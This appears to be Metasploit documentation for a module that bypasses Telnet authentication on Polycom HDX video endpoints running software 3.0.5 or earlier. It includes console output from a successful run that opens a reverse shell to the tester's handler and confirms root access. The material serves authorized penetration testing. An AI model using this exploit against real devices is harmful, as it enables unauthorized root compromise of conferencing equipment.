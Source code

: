 ## Vulnerable Application

This module exploits the Polycom HDX video endpoints with software <= 3.0.5.
It was tested on a Polycom HDX 7000 running software version 3.0.3. Telnet port
23 should be accessible, as it is with the factory default configuration.

## Verification Steps

A successful check of the exploit will look like this:

```
msf exploit(psh_auth_bypass) > use exploit/unix/misc/psh_auth_bypass
msf exploit(psh_auth_bypass) > run

[*] Started reverse double SSL handler on 192.168.1.120:4444
[*] 192.168.1.155:23 - Starting Authentication bypass with 6 threads with 100 max connections
[+] 192.168.1.155:23 - 192.168.1.155:23 Successfully exploited the authentication bypass flaw
[+] 192.168.1.155:23 - Sending payload of 178 bytes to 192.168.1.155:40186...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo xInxktvgUmm7hPyh;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "xInxktvgUmm7hPyh\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.1.120:4444 -> 192.168.1.155:37728) at 2016-08-01 13:49:06 -0500
[*] 192.168.1.155:23 - Shutting down payload stager listener...

whoami
root
uname -a
Linux polycom.lan 2.6.33.3-rt17.p2.25 #1 PREEMPT RT Wed Aug 3 14:08:40 CDT 2011 ppc unknown
```
